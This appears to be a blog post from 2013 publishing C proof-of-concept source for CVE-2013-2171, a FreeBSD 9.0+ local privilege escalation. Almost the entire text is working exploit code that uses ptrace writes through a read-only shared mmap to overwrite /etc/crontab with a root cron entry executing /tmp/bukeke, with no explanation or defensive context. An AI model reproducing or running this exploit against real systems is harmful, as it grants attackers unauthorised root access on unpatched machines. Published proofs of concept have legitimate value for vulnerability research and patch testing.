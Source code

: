 title: "FreeBSD 9.0+ Privilege escalation via mmap"
date: 2013-06-24 17:15:48
tags:
id: 297
comment: false
categories:
  - exploit
---

<pre class="brush:cpp">/* 
 * CVE-2013-2171 FreeBSD 9.0+ Privilege escalation via mmap
 *
 * poc by SynQ, rdot.org, 6/2013
 *
 * don't forget to cp /etc/crontab /tmp
 *
 */
 #include &lt;unistd.h&gt;
 #include &lt;stdio.h&gt;
 #include &lt;stdlib.h&gt;
 #include &lt;sys/mman.h&gt;
 #include &lt;sys/ptrace.h&gt;
 #include &lt;sys/wait.h&gt;
 #include &lt;fcntl.h&gt;
 #include &lt;sys/types.h&gt;

 char sc[]="*\t*\t*\t*\t*\troot\t/tmp/bukeke\n#";

 void child() {
 int status;

 status = ptrace(PT_TRACE_ME, 0, 0, 0);
 if (status != 0)
 printf("child ptrace error\n");
 exit(1);
 }

 int main() {
 int pid, fd, i;
 char *addr;

 fd = open("/etc/crontab", O_RDONLY);
 if (fd&lt;0) {
 printf("open failed\n");
 exit(1);
 }

 addr = mmap(0, 4096, PROT_READ, MAP_SHARED, fd, 0);
 if (addr == MAP_FAILED) {
 printf("mmap fault\n");
 exit(1);
 }

 pid = fork();
 if (pid == -1) {
 printf("fork failed\n");
 exit(1);
 }
 else if (pid == 0)
 child();

 ptrace(PT_ATTACH, pid, 0, 0);
 if (wait(0) == -1) {
 printf("wait failed\n");
 exit(1);
 }
 printf("writing shellcode...\n");

 for(i=0; i &lt; sizeof(sc)/4; i++)
 ptrace(PT_WRITE_D, pid, addr+i*4, *(int*)&amp;sc[i*4]);

 ptrace(PT_DETACH, pid, 0, 0);
 if (wait(0) == -1) {
 printf("wait2 failed\n");
 exit(1);
 }

 printf("done.\n");
 return 0;
 }</pre>